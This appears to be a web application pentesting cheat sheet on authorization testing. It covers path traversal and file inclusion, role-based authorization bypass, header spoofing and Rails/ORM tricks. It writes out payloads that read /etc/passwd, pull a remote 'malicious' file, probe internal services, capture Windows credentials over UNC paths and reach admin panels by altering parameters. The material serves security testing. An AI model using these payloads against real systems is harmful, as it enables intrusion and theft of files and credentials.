 # Authorization Testing
---
## Navigation
- **[Directory Traversal File Include LFI](#Directory%20Traversal%20File%20Include%20LFI)**
- **[Bypassing Authorization Schema](#Bypassing%20Authorization%20Schema)**
- [**P**](#Rails-extension)

---
# Directory Traversal File Include (LFI)
### Input Vectors Enumeration
checks to be performed:
-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?
    -   `http://example.com/getUserProfile.jsp?item=ikki.html`
    -   `http://example.com/index.php?file=content`
    -   `http://example.com/main.cgi?home=index.html`
-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    -   `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    -   `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`
### Testing Techniques
```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

For the cookies example:

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

It’s also possible to include files and scripts located on external website:

```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way:

```
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it’s also possible to probe the local services and nearby services:

```
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters if it's present in the same directory.

```
http://example.com/main.cgi?home=main.cgi
```
> **Tip:** It’s a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn’t successful, try another encoding scheme.

Each operating system uses different characters as path separator:

-   Unix-like OS:
    -   root directory: `/`
    -   directory separator: `/`
-   Windows OS:
    -   root directory: `<drive letter>:`
    -   directory separator: `\` or `/`
-   Classic macOS:
    -   root directory: `<drive letter>:`
    -   directory separator: `:`

We should take in to account the following character encoding mechanisms:

-   URL encoding and double URL encoding
    -   `%2e%2e%2f` represents `../`
    -   `%2e%2e/` represents `../`
    -   `..%2f` represents `../`
    -   `%2e%2e%5c` represents `..\`
    -   `%2e%2e\` represents `..\`
    -   `..%5c` represents `..\`
    -   `%252e%252e%255c` represents `..\`
    -   `..%255c` represents `..\` and so on.
-   Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
    -   `..%c0%af` represents `../`
    -   `..%c1%9c` represents `..\`
 
 There are other OS and application framework specific considerations as well. For instance, Windows is flexible in its parsing of file paths.

-   Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
    -   Angle brackets `<` and `>` at the end of the path
    -   Double quotes (closed properly) at the end of the path
    -   Extraneous current directory markers such as `./` or `.\\`
    -   Extraneous parent directory markers with arbitrary items that may or may not exist:
        -   `file.txt`
        -   `file.txt...`
        -   `file.txt<spaces>`
        -   `file.txt""""`
        -   `file.txt<<<>>><`
        -   `./././file.txt`
        -   `nonexistant/../file.txt`

**Windows API**: The following items are discarded when used in any shell command or API call where a string is taken as a filename:
    -   `periods`
    -   `spaces`
-   **Windows UNC Filepaths**: Used to reference files on SMB shares. Sometimes, an application can be made to refer to files on a remote UNC filepath. If so, the Windows SMB server may send stored credentials to the attacker, which can be captured and cracked. These may also be used with a self-referential IP address or domain name to evade filters, or used to access files on SMB shares inaccessible to the attacker, but accessible from the web server.
    -   `\\server_or_ip\path\to\file.abc`
    -   `\\?\server_or_ip\path\to\file.abc`
-   **Windows NT Device Namespace**: Used to refer to the Windows device namespace. Certain references will allow access to file systems using a different path.
    -   May be equivalent to a drive letter such as `c:\`, or even a drive volume without an assigned letter: `\\.\GLOBALROOT\Device\HarddiskVolume1\`
    -   Refers to the first disc drive on the machine: `\\.\CdRom0\`

# Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema
-   Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
-   Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

**For each role:**
1.  Register or generate two users with identical privileges.
2.  Establish and keep two different sessions active (one for each user).
3.  For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4.  An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.

### Vertical Bypassing Authorization Schema

**For each role:**

1.  Register a user.
2.  Establish and maintain two different sessions based on the two different roles.
3.  For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4.  An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.

### Testing for Special Request Header Handling
Some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` in order to allow overriding the target URL in requests with the one specified in the header value.
### Other Headers to Consider
-   Headers:
    -   `X-Forwarded-For`
    -   `X-Forward-For`
    -   `X-Remote-IP`
    -   `X-Originating-IP`
    -   `X-Remote-Addr`
    -   `X-Client-IP`
-   Values
    -   `127.0.0.1` (or anything in the `127.0.0.0/8` or `::1/128` address spaces)
    -   `localhost`
    -   Any [RFC1918](https://tools.ietf.org/html/rfc1918) address:
        -   `10.0.0.0/8`
        -   `172.16.0.0/12`
        -   `192.168.0.0/16`
    -   Link local addresses: `169.254.0.0/16`

>Note: Including a port element along with the address or hostname may also help bypass edge protections such as web application firewalls, etc. For example: `127.0.0.4:80`, `127.0.0.4:443`, `127.0.0.4:43982`

# Rails-extension
You can access the data in different formats by modifying the extension in url e.g `/users/1 -> /users/1.json` -> [Reference](https://pentesterlab.com/exercises/autho_03/course)
# ORM-Risk
Assuming the application has two levels of privileges, changing the parameter from `user[username]=admin&user[password]=lol` -> `user[admin]=admin&user[password]=lol` could lead to accessing admin panel. -> [Reference+ Explaination](https://pentesterlab.com/exercises/autho_04/course)